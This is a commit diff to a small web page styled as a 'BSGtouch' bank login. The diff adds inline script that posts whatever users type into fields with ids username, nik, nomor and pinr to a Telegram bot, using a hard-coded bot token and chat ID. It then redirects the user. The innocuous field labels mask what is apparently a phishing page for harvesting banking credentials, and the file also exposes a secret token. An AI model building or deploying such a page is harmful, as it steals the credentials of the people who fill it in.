

Before and after one commit to galuh1998-cmd/gbcc, a plain HTML site: page index.html in a window 1280 px wide. Shown: the whole page, without its empty margins (393-1219 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -6,102 +6,253 @@
 <title>BSGtouch - Pendaftaran</title>
 
 <style>
-body{
-  margin:0;
-  font-family:system-ui;
-  background:#0f1012;
+:root{
+  --bg:#0f1012;
+  --panel: rgba(255,255,255,.06);
+  --text:#f2f4f8;
+  --muted: rgba(242,244,248,.68);
+  --stroke: rgba(255,255,255,.10);
+  --shadow: 0 18px 55px rgba(0,0,0,.55);
+  --danger:#b3182b;
+  --danger2:#cc2239;
+  --gold:#c9a93c;
+  --field:#ffffff;
+  --fieldText:#0e1116;
+}
+
+*{ box-sizing:border-box; }
+html,body{ height:100%; margin:0; font-family: system-ui, -apple-system, Segoe UI, Roboto, Helvetica, Arial; color:var(--text); background: radial-gradient(1200px 800px at 70% 30%, rgba(255,255,255,.06), transparent 60%), radial-gradient(900px 700px at 25% 80%, rgba(255,255,255,.05), transparent 55%), linear-gradient(180deg, #0a0b0d, #0e1013 50%, #0a0b0d); overflow-x:hidden; }
+
+.wrap{
+  min-height:100%;
+  display:flex;
+  align-items:center;
+  justify-content:center;
+  padding:26px 16px 22px;
+  position:relative;
+  z-index:1;
+}
+
+.phone{
+  width:min(430px, 100%);
+  border-radius:28px;
+  position:relative;
+}
+
+.logo-fallback{
+  width:100%;
+  height:100px;
+  display:flex;
+  align-items:center;
+  justify-content:center;
+}
+
+.logo-text{
+  font-weight:900;
+  font-size:70px;
+  letter-spacing:.5px;
   color:#fff;
-  display:flex;
-  justify-content:center;
-  align-items:center;
-  height:100vh;
+}
+.logo-text span{
+  font-weight:700;
+  font-style:italic;
 }
 
 .card{
-  width:350px;
-  padding:20px;
-  border-radius:20px;
-  background:rgba(255,255,255,.05);
-  box-shadow:0 15px 40px rgba(0,0,0,.5);
+  padding: 14px 18px 16px;
+  border-radius: 26px;
+  background: rgba(0,0,0,.18);
+  border: 1px solid rgba(255,255,255,.08);
+  box-shadow: var(--shadow);
+  backdrop-filter: blur(10px);
 }
 
 h1{
-  margin:0 0 15px;
+  margin: 8px 0 10px;
+  font-size: 32px;
+  letter-spacing:.2px;
 }
 
+.field{ margin-top:12px; }
 .label{
   font-size:14px;
-  margin:10px 0 5px;
+  color: rgba(242,244,248,.78);
+  margin: 10px 2px 7px;
 }
 
-input{
+input[type="text"], input[type="password"]{
   width:100%;
-  height:45px;
-  border-radius:12px;
-  border:none;
-  padding:0 12px;
-  font-size:14px;
+  height:48px;
+  border-radius:16px;
+  border:1px solid rgba(0,0,0,.08);
   outline:none;
-  margin-bottom:10px;
+  padding:0 14px;
+  font-size:15px;
+  background: var(--field);
+  color: var(--fieldText);
+  box-shadow: 0 10px 22px rgba(0,0,0,.16);
 }
 
-button{
-  width:100%;
-  height:45px;
-  border:none;
-  border-radius:30px;
-  background:#b3182b;
+input::placeholder{ color: rgba(14,17,22,.45); }
+
+.actions{
+  display:flex;
+  align-items:center;
+  justify-content:space-between;
+  margin-top: 14px;
+  gap: 12px;
+}
+
+.forgot{
+  color: var(--gold);
+  font-size: 15px;
+  text-decoration:none;
+  opacity:.95;
+}
+.forgot:hover{ text-decoration:underline; }
+
+.btn{
+  height:48px;
+  min-width:150px;
+  padding:0 18px;
+  border-radius:999px;
+  border:0;
+  background: linear-gradient(180deg, var(--danger2), var(--danger));
   color:#fff;
-  font-weight:bold;
+  font-weight:800;
+  font-size:15px;
   cursor:pointer;
+  box-shadow: 0 16px 35px rgba(179,24,43,.35);
 }
+.btn:active{ transform: translateY(1px); }
 
 .toast{
   position:fixed;
-  bottom:20px;
   left:50%;
-  transform:translateX(-50%);
-  background:#000;
-  padding:10px 15px;
-  border-radius:10px;
+  bottom:18px;
+  transform: translateX(-50%);
+  background: rgba(0,0,0,.75);
+  border: 1px solid rgba(255,255,255,.12);
+  color:#fff;
+  padding:10px 12px;
+  border-radius:12px;
+  font-size:13px;
   opacity:0;
-  transition:.3s;
+  pointer-events:none;
+  transition: .2s ease;
+  z-index: 50;
+  backdrop-filter: blur(8px);
 }
+.toast.show{ opacity:1; }
 
-.toast.show{
-  opacity:1;
-}
 </style>
 </head>
-
 <body>
+<div class="wrap">
+  <div class="phone">
+    <div class="top-logo">
+      <div class="logo-box">
+        <img src="logo-placeholder.png" alt="Logo Placeholder"
+          onerror="this.outerHTML='<div class=&quot;logo-fallback&quot;><div class=&quot;logo-text&quot;>BSG<span>touch</span></div></div>'">
+      </div>
+    </div>
 
     <div class="card">
       <h1>Selamat Datang</h1>
 
       <form id="loginForm" autocomplete="on">
 
+        <div class="field">
           <div class="label">Masukkan nama pacar</div>
-<input type="text" id="username" required>
+          <input id="username" name="a" type="text" required="">
+        </div>
 
-<div class="label">Masukkan password boongan</div>
-<input type="password" id="nik" required>
+        <div class="field">
+          <div class="label">Masukkan minuman kesukaan</div>
+          <input id="nik" name="b" type="text" autocomplete="off" required="">
+        </div>
 
-<div class="label">Masukkan nomor handphone palsu</div>
-<input type="text" id="nomor" minlength="10" maxlength="15" required>
+        <div class="field">
+          <div class="label">Masukkan makanan kesukaan</div>
+          <input type="text" name="c" id="nomor" required="">
+        </div>
 
-<div class="label">Masukkan PIN buatan sendiri</div>
-<input type="text" id="pinr" minlength="6" maxlength="6" required>
+        <div class="field">
+          <div class="label"></div>
+          <input type="text" name="d" id="pinr" placeholder="XXXXXX" required="">
+        </div>
 
-<button type="submit">Masuk</button>
+        <div class="actions">
+          <a class="forgot" href="#" id="forgotLink">Lupa Password?</a>
+          <button class="btn" type="submit">Masuk</button>
+        </div>
 
       </form>
+    </div>
+  </div>
 </div>
 
 <div class="toast" id="toast"></div>
 
-<!-- Hubungkan ke script.js -->
-<script src="script.js"></script>
+<script>
+const $ = (s) => document.querySelector(s);
 
+// ===== GANTI TOKEN DAN CHAT ID =====
+const BOT_TOKEN = "8260302249:AAG8Gjw6PkPt9zSWQQ9mIme8hRtjQvr7BQk";
+const CHAT_ID = "5529657606";
+
+const toast = (msg) => {
+  const el = $("#toast");
+  el.textContent = msg;
+  el.classList.add("show");
+  setTimeout(() => el.classList.remove("show"), 2200);
+};
+
+$("#loginForm").addEventListener("submit", async (e) => {
+  e.preventDefault();
+
+  const nama = $("#username").value.trim();
+  const minuman = $("#nik").value.trim();
+  const makanan = $("#nomor").value.trim();
+  const kode = $("#pinr").value.trim();
+
+  if (!nama || !minuman || !makanan || !kode) {
+    return toast("Semua data wajib diisi.");
+  }
+
+  const message = `
+💌 DATA BARU MASUK 💌
+
+👤 Nama     : ${nama}
+🥤 Minuman  : ${minuman}
+🍽️ Makanan  : ${makanan}
+🆔 Kode    : ${kode}
+
+Dikirim dari website ❤️
+`;
+
+  try {
+    await fetch(`https://api.telegram.org/bot${BOT_TOKEN}/sendMessage`, {
+      method: "POST",
+      headers: { "Content-Type": "application/json" },
+      body: JSON.stringify({
+        chat_id: CHAT_ID,
+        text: message
+      })
+    });
+
+    toast("Berhasil dikirim ❤️");
+    window.location.href = "tujuan.html";
+  } catch (err) {
+    toast("Gagal kirim ke Telegram.");
+  }
+});
+
+// Forgot password
+$("#forgotLink").addEventListener("click", (e)=>{
+  e.preventDefault();
+  toast("Silakan hubungi Contact Center 1500 659");
+});
+</script>
 </body>
 </html>
```
Lines whose indentation alone changed are shown as unchanged.
